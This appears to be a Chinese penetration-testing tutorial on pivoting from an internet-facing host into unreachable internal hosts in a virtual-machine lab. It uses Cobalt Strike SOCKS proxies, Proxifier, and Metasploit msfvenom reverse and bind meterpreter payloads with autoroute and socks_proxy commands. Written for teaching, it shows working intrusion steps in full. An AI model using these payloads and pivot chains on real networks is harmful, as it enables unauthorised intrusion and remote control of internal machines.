# 1. 前言

本章主要涉及到的技术就是如何让攻击机通过能够上网的主机当作跳板去连接内网中不能上网的主机，有点绕口。不过通过介绍页能够大概明白是什么意思。

## 1.1. 实验背景

在我们做渗透的时候，通常企业都会设定有些软硬件防火墙，当企业有业务需求的时候会通过防火墙放通地址转换对外开放想要开放的WEB界面或者通信业务，而在企业的内网中有些主机或服务器是无法出网的，只能在内网中通信。

而且本章的核心思想就是如何利用可出网的主机去控制内网中其它无法出网的主机，通常情况下，就算你社工将木马放入内网中的主机，也是无法上网，最简单的道理就是之前提到的，主机都无法上网了，你不管是正向连接还是反向连接都无法进行通信，所以就会使用到隧道技术、代理技术，并且根据实际的情况，选择生成的木马是正向连接还是反向连接。

## 1.2. 环境准备

这里我们准备了一台攻击机，四台主机，本来想使用云服务器来进行操作的，但是想了一下毕竟在客户的环境中，避免挂CS或连接MSF把客户的出口IP再污染了，所以就选择使用虚拟机来操作，原理上都是一样的。

### 1.2.1. 环境介绍

可以看到我下面已经列出了相关的IP地址，这里我就简单介绍一下。

攻击机的目标是`Windows7`系统，而攻击机是无法直接连接`Windows7`，如果这里不了解我说的是什么意思，请去学习一下路由原理吧！自然而然下面也就不用解释了，肯定是`Windows2008`能够连接`Windows2003`，`Windows2003`能够连接`Windows2012`，`Windows2012`能够连接到`Windows7`。目前攻击机只能够连接`Windows2008`，但是我们可以通过采用一些技术而实现和`Windows7`通信，这技术也就是本章需要介绍的。

这里我们不考虑是通过如何手段获取到`Windows2008`的权限，也不考虑怎么知道`Windows2003`、`2012`、`7`的IP地址，这些肯定是当获取到`Windows2008`的权限后通过一些信息收集得到的，而这里我们不要考虑如何得到权限、地址，我们只需要先学习如何让这些主机互相通信起来。

```
攻击机				192.168.10.20

Windows2008 192.168.10.200(外网出口)
						192.168.20.10(内网口)
						
Windows2003 192.168.20.20(内网口)
						192.168.30.10(内网口)
						
Windows2012 192.168.30.20(内网口)
						192.168.40.10(内网口)
						
Windows7    192.168.40.20(内网口)
```


### 1.2.2. 环境测试

这里我就使用`ping`来进行测试，分别ping三个地址，`Windows7地址`、`攻击机地址`、`相连主机地址`，看完想必应该就知道这个环境是什么样子的。

可能很多新手在学习渗透测试的时候可能网络方面都是大概了解一些，但是到内网的时候很多时候你通信的原理，路由都需要了解，WEB安全就需要各种语言技术，所以打牢基础是很重要的，并且我一直相信学网络安全，第一步就是学网络。

#### 1.2.2.1. 攻击机测试

从攻击机上来看，能够`ping`通`Windows2008`但是不能与`Windows7`通信。



#### 1.2.2.2. Windows2008

从`Windows2008`上看，能够与`攻击机`，`Windows2003`通信，但是不能与`Windows7`通信。



#### 1.2.2.3. Windows2003

从`Windows2003`上看，能够与`Windows2008`通信，但是不能与`攻击机`，`Windows7`通信。



#### 1.2.2.4. Windows2012

从`Windows2012`上看，能与`Windows2003`和`Windows7`通信，但是不能与`攻击机`通信。


#### 1.2.2.5. Windows7

从`Windows2007`上看，能与`Windows2012`通信，但是不能与`攻击机`通信。


## 1.3. 技术介绍

这里主要介绍一些会涉及到的技术，然后简单的介绍一下，如果介绍不到位，还请自学百度搜索。

### 1.3.1. 隧道技术

隧道技术（Tunneling）是一类网络协议，它是一种数据包封装技术，它将原始IP包（其报头包含原始发送者和最终目的地）封装在另外一个数据包（称为封装的IP包）的数据净荷中进行传输，使用隧道的原因是在不兼容的网络上传输数据，或在不安全网络上提供一个安全路径，隧道协议通常（但并非总是）在一个比负载协议还高的层级或同一层。

简单来说就是通过网络隧道，可以使其隧道两端的网络进行互相通信，形成一个更到的网络，并且可以将不支持的协议数据包打包成支持的协议数据包后进行数据传输。

### 1.3.2. 代理技术

代理实际上指的就是代理服务器，英文叫作proxy  server，它的功能是代理网络用户去取得网络信息。形象地说，它是网络信息的中转站。在我们正常请求一个网站时，是发送了请求给Web服务器，Web服务器把响应传回给我们。如果设置了代理服务器，实际上就是在本机和服务器之间搭建了一个桥，此时本机不是直接向Web服务器发起请求，而是向代理服务器发出请求，请求会发送给代理服务器。

然后由代理服务器再发送给Web服务器，接着由代理服务器再把Web服务器返回的响应转发给本机。这样我们同样可以正常访问网页，但这个过程中Web服务器识别出的真实IP就不再是我们本机的IP了，就成功实现了IP伪装，这就是代理的基本原理。

### 1.3.3. 代理协议Socks4/5

SOCKS代理与其他类型的代理不同，它只是简单地传递数据包，而并不关心是何种应用协议，既可以是HTTP请求，所以SOCKS代理服务器比其他类型的代理服务器速度要快得多。SOCKS代理又分为SOCKS4和SOCKS5，二者不同的是SOCKS4代理只支持TCP协议（即传输控制协议），而SOCKS5代理则既支持TCP协议又支持UDP协议（即用户数据包协议），还支持各种身份验证机制、服务器端域名解析等。SOCK4能做到的SOCKS5都可得到，但SOCKS5能够做到的SOCKS则不一定能做到。

### 1.3.4. 代理软件

这里简单会使用到的代理软件，至于如何使用，可以自行百度学习，后面也会涉及到，但是不会那么详细，在我的文章中有很多都涉及到如何配置代理工具。

SocksCap、Proxifier、ProxyChains；

# 2. CS上线

这里我们先使用CS进行上线演示，其实原理上CS与MSF基本是一致的，还是一句话，不要在意如何上传木马，如何拿到权限等操作，我们主要介绍如何使其通信。

## 2.1. windows 2008上线

这我们首先需要先生成一个木马，然后让`Windows2008`上线，到这里就不要再问如何让其上线了，为什么能够上线了，为什么要上线了，在背景中已经介绍的很详细了。想必CS如何生成木马，如何设置监听器应该不用说了，已经演示很多次了。



## 2.2. windows 2003上线

到`Windows2003`这里上线，就比较麻烦了，由于攻击机与`Windows2003`并不通信，所以无法直接生成木马让`Windows2003`进行上线，那么这里就需要使用到代理技术来解决这个问题。

### 2.2.1. CS设置代理

#### 2.2.1.1. 设置socks代理

这里我们右击刚刚上线的`Windows2008`，设置`socks代理`。



#### 2.2.1.2. 设置代理端口

设置代理端口，这里会自动生成代理端口，而我们需要做的就是记下代理端口，或者你自己设置一个代理端口。



### 2.2.2. Proxifier设置代理

#### 2.2.2.1. 设置代理服务器

注意我更换了一个CS，所以端口变成了40403，`设置` 》`配置文件`》`代理服务器`》`添加`》`地址：攻击机的地址`》`端口刚刚上面生成的端口`》`查看会话窗口回显的socks版本，根据版本选择`》`检查`


#### 2.2.2.2. 检查通信

检查代理服务器是否正常通信，这里注意观察只要第一个检查通过了就可以了，由于我并未在`Windows2003`上搭建服务，所以不好用来检查所以出现测试失败。


#### 2.2.2.3. 后补测试

这里我回来添加了一个IIS服务，这里我们使用本地来去连接看看，这个是在开启代理后，我在我本地去访问192.168.20.20上的80访问。


#### 2.2.2.4. 设置代理规则

`设置`》`配置文件`》`代理规则`》`添加`》`名称随意`》`应用程序默认`》`目标主机选择Windows2003地址`》`动作选择刚刚创建的`。


### 2.2.3. 生成木马

这里我们需要生成一个正向连接的木马，由于反向的让`Windows2003`去找我们不太现实，由于它并没有我们的路由，所以它无法主动去连接我们，而我们设置了代理，我们可以使用正向连接去主动连接它。

#### 2.2.3.1. 设置监听器

这里我们要设置一个正向的监听器，端口我设置的是`2222`。



#### 2.2.3.2. 生成木马

这里我们需要生成一个正向连接的木马，选择`Windows可执行程序(s)`，这个可以生成正向连接的木马，原理请参考上篇，我已经介绍过了。

生成的时候，选择的监听器选择我们刚刚创建的正向监听器。





### 2.2.4. 执行上线

这里我们将木马上传到`Windows2003`上，然后对其进行运行发现，并未上线，这时候我们选择与它能够相连的`Windows2008`上执行命令，然后就可以看到成功上线了。

```
connect 192.168.20.20 2222
```


## 2.3. windows 2012上线

其实这里和上面的`Windows2003`上线基本上是一致的，我们这里已经获取到`Windows2003`的权限了，那么我们攻击机想要连接`Windows2012`，就需要使用`Windows2003`来建立节点进行通信。

### 2.3.1. CS设置

#### 2.3.1.1. 设置socks代理

这里我们选择`Windows2003`来设置代理，获取到的端口是`47192`，`socks代理协议是4a`。



### 2.3.2. proxifier设置代理

#### 2.3.2.1. 设置代理服务器

这里就需要将原来的代理端口修改成刚刚`Windows2003`生成的端口，同样这里测试还是不通过，还是那句话我没有搭建服务，只要第一个能够连接成功即可。



#### 2.3.2.2. 设置代理规则

这里的代理规则目的地就要修改为`Windows2012`的地址了。



### 2.3.3. 生成木马

#### 2.3.3.1. 设置监听器

我们这里再设置一个正向连接的监听器，由于刚刚的监听器被`Windows2003`用了。



#### 2.3.3.2. 生成木马

这里我们的监听器选择我们刚刚创建的监听器。



### 2.3.4. 执行上线

这里还是一样点击上线后，在能够通信的主机中输入命令，这里能够通信的主机，可以自己看图理解。

```
connect 192.168.30.20 2222
```



## 2.4. Windows 7上线

这里我就不一步一步说了，操作和之前的完全一样，直接看上线效果吧。



## 2.5. 最终效果

这个就是最终CS上线的效果，其实能够看出，和我们刚开是画的图基本上是一致的。



# 3. MSF上线

`MSF`这里其实和`CS`基本上是一致的，但是我们还是进行演示一下，但是不会演示到底。

## 3.1. Windows 2008上线

这里直接使用一个反向连接木马让`Windows 2008`进行上线。

```
生成木马：
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.10.20 LPORT= -f exe > 2008.exe
设置监听：
msfconsole
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 192.168.10.20
set LPORT 1111
run
```


### 3.1.1. 判断内网

我们通过输入`ipconfig`获取到该主机还存在一个网卡信息，但是我们是无法通信的，所以需要借用`MSF`中的添加路由。

```
ipconfig
```



### 3.1.2. 添加路由

这里我们就需要查询一下路由，然后添加路由信息。

```
run autoroute -p
run post/multi/manage/autoroute
```


### 3.1.3. 查看路由信息

这里添加完后，只是`msf`的控制器享有通信，但是实际其它的工具以及操作，其实并没有通信权限，所以还是需要像`CS`一样建立节点。



### 3.1.4. 建立节点

这里主要就是添加一个节点，简单来说就是设置一个代理，在`MSF`中默认设置的`socks是5`版本的协议，不要搞错了，当然你可以使用 `show op`，`teb`键补其去修改协议版本。

```
use auxiliary/server/socks_proxy
set srvhost 0.0.0.0
set srvport 1122
run
```


## 3.2. Windows 2003上线

### 3.2.1. 代理测试

这里我在`Windows 2003`上设置了一个`IIS`服务，可以看到代理是成功连接到了，这图都是后补的，由于思考到，真实性所以就在这上面添加了，测试是否真的能够使其它工具连接到，但是我发现好像能连接，但是无法`ping`，而且`nmap`也无法扫描，这......

有大佬了解么？



### 3.2.2. 生成木马

这里我们生成一个木马，这个木马和`CS`是一样的都是正向连接。

```
msfvenom -p windows/meterpreter/bind_tcp LHOST=0.0.0.0 LPORT=2222 -f exe > 2003.exe
```

### 3.2.3. 设置监听

这里我们设置正向监听。

```
use exploit/multi/handler
set payload windows/meterpreter/bind_tcp
set rhost 192.168.20.20    ##目标地址
set lport 2222
run
```


### 3.2.4. 查看后台会话

这里时候可以看到我们有两个会话了。


### 3.2.5. 建立路由

这里和上面一样，我们可以先查看一下我们现有的路由，会发现还是之前的，所以我们要再次添加路由。

```
run autoroute -p
run post/multi/manage/autoroute
```


### 3.2.6. 建立节点

这里的节点要和上面的节点的端口号不一样的，不能冲突了。

```
use auxiliary/server/socks_proxy
set srvhost 0.0.0.0
set srvport 2233
run
```


## 3.3. Windows 2012上线

这里和上面`Windows 2003`操作流程是一样的，没太多可说的。

### 3.3.1. 生成木马

```
msfvenom -p windows/meterpreter/bind_tcp LHOST=0.0.0.0 LPORT=3333 -f exe > 2012.exe
```


### 3.3.2. 设置监听

```
use exploit/multi/handler
set payload windows/meterpreter/bind_tcp
set rhost 192.168.30.20    ##目标地址
set lport 3333
run
```


### 3.3.3. 查看后台会话

```
sessions
```


# 4. 总结

各位看这可能有点恍惚，实际环境中真的有那么顺吗？其实不然，实际的环境中可能更复杂，这里只是将这个复杂的内容，分为单方面来说，所以看似容易，当所有单方面说完，综合起来肯定就比较复杂了。